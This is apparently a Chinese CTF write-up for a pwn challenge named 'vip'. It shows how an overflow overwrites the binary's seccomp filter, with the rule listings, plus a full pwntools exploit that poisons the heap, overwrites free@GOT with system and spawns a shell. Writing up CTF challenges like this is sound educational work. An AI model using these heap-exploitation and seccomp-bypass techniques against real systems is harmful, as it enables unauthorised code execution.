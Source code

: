 # vip

环境是`Ubuntu18.04`，libc是`2.27`

漏洞点很明显是在`edit`函数里，但是我们要绕过它的限制，才能输入我们想要输入的值，如果绕过的话后面的利用就极其的简单

然后程序还提供了一个`vip`的函数，然后输入`name`的时候存在溢出，可以覆盖`seccomp`的规则

这里推荐用`seccomp-tools`这个工具写规则，太好用了，tql

根据`seccomp-tools`的使用说明，我写了如下规则，
```asm
A = sys_number
A == openat ? next : ok
return ERRNO(0)
ok:
return ALLOW
```
绕过了那个限制，让`fd = open("/dev/urandom", 0);`返回了0，我以为这样就成功了，但是当我执行`system("/bin/sh")`的时候
```c
sh: error while loading shared libraries: /lib/x86_64-linux-gnu/tls/haswell/x86_64/libc.so.6: cannot read file data: Error 9
Done!

1.alloc
2.show
3.free
4.edit
5.exit
6.become vip

```

我发现不能简单的直接让`openat`返回0，这样`shell`也无法起，wtcl，后来看了tree学长的wp，只要限制下`openat`的`filename`参数就好了，orz

然后我就把规则改成了这样

```asm
A = sys_number
A == openat ? next : ok
A = args[1]
A == 0x000000000040207e ? next : ok
return ERRNO(0)
ok:
return ALLOW
```

`disasm`下是这样的

```shell
ruan@ubuntu:/mnt/hgfs/shared/byte/pwn/vip/vip$ seccomp-tools disasm rule
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x15 0x00 0x03 0x00000101  if (A != openat) goto 0005
 0002: 0x20 0x00 0x00 0x00000018  A = filename # openat(dfd, filename, flags, mode)
 0003: 0x15 0x00 0x01 0x0040207e  if (A != 0x40207e) goto 0005
 0004: 0x06 0x00 0x00 0x00050000  return ERRNO(0)
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW

```

最终exp如下

```python
from pwn import *

def cmd(command):
	p.recvuntil("Your choice: ")
	p.sendline(str(command))

def add(idx):
	cmd(1)
	p.recvuntil("Index: ")
	p.sendline(str(idx))
	
	
def show(idx):
	cmd(2)
	p.recvuntil("Index: ")
	p.sendline(str(idx))

def dele(idx):
	cmd(3)
	p.recvuntil("Index: ")
	p.sendline(str(idx))
	
def edit(idx,sz,content):
	cmd(4)
	p.recvuntil("Index: ")
	p.sendline(str(idx))
	p.recvuntil("Size: ")
	p.sendline(str(sz))
	p.recvuntil("Content: ")
	p.send(content)

def vip(name):
	cmd(6)
	p.recvuntil("tell us your name:")
	p.send(name)

def main(host,port=9999):
	global p
	if host:
		p = remote(host,port)
	else:
		p = process("./vip")
		gdb.attach(p,"b *0x00000000004014A8")
	rule = open('./rule',"rb").read()
	add(0)
	add(1)
	vip("r"*0x20+rule)
	dele(1)
	edit(0,0x68,"/bin/sh\x00"+"A"*0x50+p64(0x61)+p64(elf.got['free']))
	add(1)
	add(2)
	show(2)
	libc.address = u64(p.recv(6).ljust(8,'\x00'))-libc.symbols['free']
	info('libc : ' + hex(libc.address))
	edit(2,8,p64(libc.symbols['system']))
	dele(0)
	p.interactive()
	
if __name__ == "__main__":
	libc = ELF("./libc-2.27.so",checksec=False)
	elf = ELF("./vip",checksec=False)
	main(args['REMOTE'])
```
